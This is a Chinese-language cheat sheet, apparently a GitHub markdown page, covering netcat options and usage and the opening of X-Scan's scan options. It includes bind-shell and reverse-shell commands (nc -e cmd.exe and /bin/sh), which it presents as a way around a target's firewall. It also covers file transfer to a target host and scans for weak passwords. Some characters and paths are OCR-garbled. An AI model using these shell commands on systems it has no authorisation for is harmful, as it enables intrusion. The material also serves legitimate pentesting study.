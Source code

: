 #### 瑞士军刀：`nc.exe`
##### 参数说明：
`-h` 查看帮助信息
`-d` 后台模式
`-e prog` 程序重定向，一但连接就执行[危险]
`-i secs` 延时的间隔
`-l` 监听模式，用于入站连接
`-L` 监听模式，连接天闭后仍然继续监听，直到CTR+C
`-n IP地址`，不能用域名
`-o film`记录16进制的传输
`-p [空格] 端口` 本地端口号
`-r` 随机本地及远程端口
`-t` 使用Telnet交互方式
`-u` UDP模式
`-v` 详细输出，用-vv将更详细
`-w` 数字 timeout延时间隔
`-z` 将输入，输出关掉（用于扫锚时）
##### 基本用法：
`nc -nvv 192.168.0.1 80 ` 连接到192.168.0.1主机的80端口
`nc -l -p 80` 开启本机的TCP 80端口并监听
`nc -nvv -w2 -z 192.168.0.1 80-1024` 扫锚`192.168.0.1`的`80-1024`端口
`nc -l -p 5354 -t -e c:winntsystem32cmd.exe` 绑定`remote`主机的`cmdshell`在`remote`的`TCP 5354`端口
`nc -t -e c:winntsystem32cmd.exe 192.168.0.2 5354` 梆定`remote`主机的`cmdshell`并反向连接`192.168.0.2`的`5354`端口
##### 高级用法：
`nc -L -p 80 `作为蜜罐用1：开启并不停地监听80端口，直到CTR+C为止
`nc -L -p 80 > c:log.txt` 作为蜜罐用2：开启并不停地监听80端口，直到CTR+C,同时把结果输出到c:log.txt
`nc -L -p 80 < c:honeyport.txt` 作为蜜罐用3-1：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中，亦可起到传送文件作用
`type.exe c:honeyport | nc -L -p 80 `作为蜜罐用3-2：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中,亦可起到传送文件作用
本机上用：`nc -l -p 本机端口`
在对方主机上用：`nc -e cmd.exe 本机IP -p 本机端口 `
`nc -e /bin/sh 本机IP -p 本机端口 `linux,unix 反向连接突破对方主机的防火墙
本机上用：`nc -d -l -p 本机端口 < 要传送的文件路径及名称`
在对方主机上用：`nc -vv 本机IP 本机端口 > 存放文件的路径及名称 `传送文件到对方主机
>备 注：

`| `管道命令
`< `或` >` 重定向命令。`<`，例如：`tlntadmn < test.txt` 指把test.txt的内容赋值给tlntadmn命令
　　`@` 表示执行`@`后面的命令，但不会显示出来（后台执行）；例：`@dir c:winnt >> d:log.txt` 意思是：后台执行`dir`，并把结果存在`d:log.txt`中
　　`>`与`>>`的区别 `>`指：覆盖；`>>`指：保存到(添加到）。
　　如：`@dir c:winnt >> d:log.txt`和`@dir c:winnt > d:log.txt`二个命令分别执行二次比较看：用`>>`的则是把二次的结果都保存了，而用：>则只有一次的结果，是因为第二次的结果把第一次的覆盖了。

###  扫描工具：xscan.exe

#### 基本格式
---
`xscan -host <起始IP>[-<终止IP>] <检测项目> [其他选项] `扫锚"起始IP到终止IP"段的所有主机信息
`xscan -file <主机列表文件名> <检测项目> [其他选项] `扫锚"主机IP列表文件名"中的所有主机信息
##### 检测项目
`-active` 检测主机是否存活
`-os` 检测远程操作系统类型（通过NETBIOS和SNMP协议）
`-port` 检测常用服务的端口状态
`-ftp` 检测FTP弱口令
`-pub` 检测FTP服务匿名用户写权限
`-pop3` 检测POP3-Server弱口令
`-smtp` 检测SMTP-Server漏洞
`-sql` 检测SQL-Server弱口令
`-smb` 检测NT-Server弱口令
`-iis` 检测IIS编码/解码漏洞
`-cgi` 检测CGI漏洞